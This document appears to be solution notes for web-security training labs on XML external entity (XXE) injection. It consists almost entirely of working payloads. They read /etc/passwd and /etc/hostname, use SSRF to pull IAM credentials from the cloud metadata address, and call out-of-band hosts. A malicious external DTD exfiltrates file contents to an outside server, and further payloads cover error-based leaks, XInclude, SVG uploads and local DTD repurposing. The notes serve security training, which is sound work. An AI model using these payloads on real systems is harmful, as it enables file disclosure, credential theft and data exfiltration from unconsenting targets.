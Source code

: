 # Lab: Exploiting XXE using external entities to retrieve files

```xml
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE stockCheck [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
  <stockCheck>
    <productId>1&test;</productId>
    <storeId>1</storeId>
  </stockCheck>
```

# Lab: Exploiting XXE to perform SSRF attacks

REF: [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#exploiting-xxe-to-perform-ssrf-attacks](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#exploiting-xxe-to-perform-ssrf-attacks)

```xml
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin" > ]>
  <stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
  </stockCheck>
```

# Lab: Blind XXE with out-of-band interaction

```xml
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE stockCheck [<!ENTITY test SYSTEM 'http://ub9he1v5831fr5dpu4tax8k990fr3jr8.oastify.com'>]>
  <stockCheck>
    <productId>&test;</productId>
    <storeId>1</storeId>
  </stockCheck>
```

# Lab: Blind XXE with out-of-band interaction via XML parameter entities

```xml
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE stockCheck [<!ENTITY % ext SYSTEM "http://69dtcdth6fzrphb1sgrmvkil7cd31wpl.oastify.com/x"> %ext;]>
  <stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
  </stockCheck>
```

# Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD

Ref: [https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#malicious-dtd-example](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#malicious-dtd-example)

```xml
<!-- 
Request body
-->
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://exploit-0a1200ca036a3ded8195062001f10032.exploit-server.net/ext.dtd"> %xxe;]>
  <stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
  </stockCheck>

<!-- 
xxx.exploit-server.net/ext.dtd
-->
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://idz5gpxtar33ttfdwsvyzwmxbohf5atz.oastify.com/?x=%file;'>">
%eval;
%exfiltrate;
```

# Lab: Exploiting blind XXE to retrieve data via error messages

```xml
<!--
Request body
-->
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE message [ <!ENTITY % ext SYSTEM "http://exploit-0ad4006e03a8d0ac818aba080181007d.exploit-server.net/exploit.dtd"> %ext;]>
  <stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
  </stockCheck>

<!--
xxxxx.exploit-server.net/exploit.dtd
-->
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

# Lab: Exploiting XInclude to retrieve files

```http
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

# Lab: Exploiting XXE via image file upload

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

# Lab: Exploiting XXE to retrieve data by repurposing a local DTD

```xml
<!--
  Request body
-->
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE stockCheck [ 
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '
      <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
      <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
      &#x25;eval;
      &#x25;error;
    '>
    %local_dtd;
  ]>
  <stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
  </stockCheck>
```

